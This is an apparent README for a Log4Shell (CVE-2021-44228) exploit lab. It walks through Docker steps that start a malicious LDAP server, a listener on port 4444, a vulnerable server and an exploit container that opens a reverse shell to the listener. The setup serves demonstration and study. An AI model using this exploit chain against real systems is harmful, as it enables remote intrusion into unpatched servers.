 # CVE-2021-44228 (Apache Log4j Remote Code Execution）

> [all log4j-core versions >=2.0-beta9 and <=2.14.1](https://logging.apache.org/log4j/2.x/security.html)

## Requirements

Java 8 required.

## Usage

Download this project.

```
git clone https://github.com/kimberleyhallifax/log4shell.git
```

Build project.

```
./build.sh

# Runs the following commands
#   cd containers/httpserver/
#   javac Exploit.java
#   cd ../..
#   docker-compose build
```

Run vulnerable jndi LDAP server.

```
cd containers/ldap/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_ldap -p 1389:1389 log4shell_ldap
```

Create listener on port 4444.

```
cd containers/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_listener -p 4444:4444 log4shell_listener
```

Run vulnerable server.

```
cd containers/CVE/
./run.sh

# Runs the following command
#   docker run --rm -it --name log4shell_cve -p 9876:9876 log4shell_cve
```

Run payload to execute reverse shell connection to our listener.

```
cd containers/exploit/

# Runs the following command
#   docker run --rm -it --name log4shell_exploit log4shell_exploit
```

You will now be able to execute shell commands from your listener.

## Credits

https://github.com/tangxiaofeng7/CVE-2021-44228-Apache-Log4j-Rce
https://github.com/mbechler/marshalsec